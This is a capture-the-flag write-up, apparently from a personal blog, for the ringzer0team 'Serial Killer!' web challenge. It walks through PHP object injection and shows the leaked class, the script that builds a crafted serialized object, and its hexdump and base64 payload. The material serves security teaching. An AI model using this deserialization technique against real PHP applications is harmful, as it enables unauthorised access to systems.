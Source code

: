 ```yaml
---
layout: post
title:  "Writeup - ringzer0team.com challenges (web 41) - 'Serial Killer!'"
date:   2018-05-21 11:14:41 -0400
categories: ringzer0team.com writeup
---
```

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-init.png)
This challenge initially displays a timestamp on the page. Digging into the request being sent, notice that there is a base64 encoded string within the GET request:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-base64.png)

When decoded, this is immediately recognizable as a serialized PHP object:

{% highlight php %}
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":1:{s:6:"action";s:14:"GetCurrentDate";}}
{% endhighlight %}

What happens if we add a single character within the base64 encoded "?o=" serialized value to upset the object structure? A wild stack trace appears:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-stack-trace.png)

Cleaning this up reveals the following PHP code. This shows the same 'RandomClass' class as exists in the discovered serialized string. What if we could inject our own object with arbitrary values and somehow retrieve the flag? In order to do that, we must first understand how the available PHP ['magic methods'](http://php.net/manual/en/language.oop5.magic.php) within the stack trace might assist us. Recommended reading for understanding PHP Object Injection will also be linked at the bottom of this post.

{% highlight php linenos %}
<?php

class RandomClass {

    private static $instance;
    private $uStruct;
    
    public function __construct() {
        $this->uStruct = (object) array();
    }
    
    public static function GetInstance() {
        if (!isset(self::$instance)) {
            self::$instance = new self();
        }
        return self::$instance;
    }

    public function __set($key, $value) {
        $this->uStruct->$key = $value;
    }

    public function __get($key) {
        return $this->uStruct->$key;
    }
    
    public function DoAction() {
        $action = $this->uStruct->action;
        $this->$action();
    }

    public function GetCurrentDate() {
        GetCurrentDate($this->uStruct);
    }

    public function ShowFlag() {
        if ($this->uStruct->time !== null && $this->uStruct->flag == 'Please?') {
            ShowFlag($this->uStruct);
        }
    }

    public function GetOutput() {
        return $this->uStruct->output;
    }
}
?>
{% endhighlight %}

Walking through the PHP code, first notice two private members. Immediately following that is the __construct() method. This magic method is called on each newly-created object, generally utilized for initialization of some sort. Inside the constructor is an empty array cast to an object, which is assigned to $this->uStruct.

From the PHP documentation, ["If a value of any other type is converted to an object, a new instance of the stdClass built-in class is created. If the value was NULL, the new instance will be empty. An array converts to an object with properties named by keys and corresponding values."](http://php.net/manual/en/language.types.object.php#language.types.object.casting)

The next magic method is __set. Reading PHP docs, ["__set() is run when writing data to inaccessible properties."](http://php.net/manual/en/language.oop5.overloading.php#language.oop5.overloading.members). This looks potentially promising. The __get() magic method is also defined here, but what really catches the eyes is the ShowFlag() function. If only it was possible to set the variables $this->uStruct->time and $this->uStruct->flag and retrieve the flag...

With the leak of the RandomClass class, we can create our own serialized object, base64 encode it, and provide as the value for "?o=" within the HTTP query string.

{% highlight php %}
$obj = new RandomClass();
$obj->time = "1";
$obj->flag = "Please?";
$obj->action = "ShowFlag";
echo serialize($obj);
{% endhighlight %}

{% highlight bash %}
root@kali:~/Challenge41# php sploit.php 
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":3:{s:4:"time";s:1:"1";s:4:"flag";s:7:"Please?";s:6:"action";s:8:"ShowFlag";}}

root@kali:~/Challenge41# php sploit.php | hexdump -C
00000000  4f 3a 31 31 3a 22 52 61  6e 64 6f 6d 43 6c 61 73  |O:11:"RandomClas|
00000010  73 22 3a 31 3a 7b 73 3a  32 30 3a 22 00 52 61 6e  |s":1:{s:20:".Ran|
00000020  64 6f 6d 43 6c 61 73 73  00 75 53 74 72 75 63 74  |domClass.uStruct|
00000030  22 3b 4f 3a 38 3a 22 73  74 64 43 6c 61 73 73 22  |";O:8:"stdClass"|
00000040  3a 33 3a 7b 73 3a 34 3a  22 74 69 6d 65 22 3b 73  |:3:{s:4:"time";s|
00000050  3a 31 3a 22 31 22 3b 73  3a 34 3a 22 66 6c 61 67  |:1:"1";s:4:"flag|
00000060  22 3b 73 3a 37 3a 22 50  6c 65 61 73 65 3f 22 3b  |";s:7:"Please?";|
00000070  73 3a 36 3a 22 61 63 74  69 6f 6e 22 3b 73 3a 38  |s:6:"action";s:8|
00000080  3a 22 53 68 6f 77 46 6c  61 67 22 3b 7d 7d        |:"ShowFlag";}}|
0000008e

root@kali:~/Challenge41# php sploit.php | base64
TzoxMToiUmFuZG9tQ2xhc3MiOjE6e3M6MjA6IgBSYW5kb21DbGFzcwB1U3RydWN0IjtPOjg6InN0
ZENsYXNzIjozOntzOjQ6InRpbWUiO3M6MToiMSI7czo0OiJmbGFnIjtzOjc6IlBsZWFzZT8iO3M6
NjoiYWN0aW9uIjtzOjg6IlNob3dGbGFnIjt9fQ==
{% endhighlight %}

Based on a review of the code, this object we have constructed should be suitable to reach the ShowFlag() method properly, considering that **(a)** $this->uStruct->time is not null, **(b)** $this->uStruct->flag is set to 'Please?', and **(c)** $obj->action is set to 'ShowFlag'. Sending this payload results in the flag being displayed on the page.

![Flag]({{ site.baseurl }}/images/rz-flag.png)

Useful resources to learn more about PHP Object Injection:
*[https://www.nds.rub.de/media/hfs/attachments/files/2010/03/hackpra09_fu_esser_php_exploits1.pdf](https://www.nds.rub.de/media/hfs/attachments/files/2010/03/hackpra09_fu_esser_php_exploits1.pdf)
*[https://www.alertlogic.com/blog/writing-exploits-for-exotic-bug-classes-unserialize()/](https://www.alertlogic.com/blog/writing-exploits-for-exotic-bug-classes-unserialize()/)
*[https://www.notsosecure.com/remote-code-execution-via-php-unserialize/](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/)
*[https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf](https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf)
*[https://www.insomniasec.com/downloads/publications/Deserialization%20-%20%20What%20Could%20Go%20Wrong.pdf](https://www.insomniasec.com/downloads/publications/Deserialization%20-%20%20What%20Could%20Go%20Wrong.pdf)
*[https://websec.files.wordpress.com/2010/11/rips_ccs.pdf](https://websec.files.wordpress.com/2010/11/rips_ccs.pdf)
*[https://tom.vg/2013/09/wordpress-php-object-injection/](https://tom.vg/2013/09/wordpress-php-object-injection/)
*[https://www.tarlogic.com/en/blog/how-php-object-injection-works-php-object-injection/](https://www.tarlogic.com/en/blog/how-php-object-injection-works-php-object-injection/)
*[https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
*[https://securitycafe.ro/2015/01/05/understanding-php-object-injection/](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)
